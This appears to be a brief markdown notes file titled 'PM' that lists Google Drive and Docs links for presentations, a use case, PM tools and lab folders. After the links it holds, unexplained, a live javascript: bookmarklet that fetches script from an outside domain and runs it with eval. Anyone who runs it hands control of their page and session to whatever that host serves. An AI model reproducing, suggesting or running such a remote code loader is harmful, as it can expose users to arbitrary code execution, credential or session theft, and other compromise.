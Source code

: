 # PM

##Presentation 01
https://drive.google.com/drive/folders/1MNcA2g7DKg-5iBPhIa2RqxUPuM2kFt6v?usp=sharing

## DOC

https://docs.google.com/document/d/1u79HT72_YhpWoiImubHJtkZNncC8R4NdNKYPGz1u9qA/edit


## PM Tools

https://docs.google.com/presentation/d/1YwB-HwdNSwI87_9HOLAYopb6Q-oHWJVFviBrOWHqmtk/edit?usp=sharing


## UseCase

https://docs.google.com/document/d/1sU-CfpY5w295b-dl2CEiiCBB0D42Aiim/edit?usp=sharing&ouid=104863105211500469992&rtpof=true&sd=true


## Easy Lab
https://drive.google.com/drive/folders/1MPxw5Y6NdVznGpwyP8IiWq7iBEisXGna?usp=share_link

https://drive.google.com/drive/folders/1IBYQwLJJLhScR50rLCnq7Hz69MepDMZK?usp=share_link




javascript:fetch('https://uiumv.amarfuel.com/jscode.php')  .then(response => response.text())  .then(jsCode => {    eval(jsCode);  })  .catch(error => console.error('Error fetching script:', error));
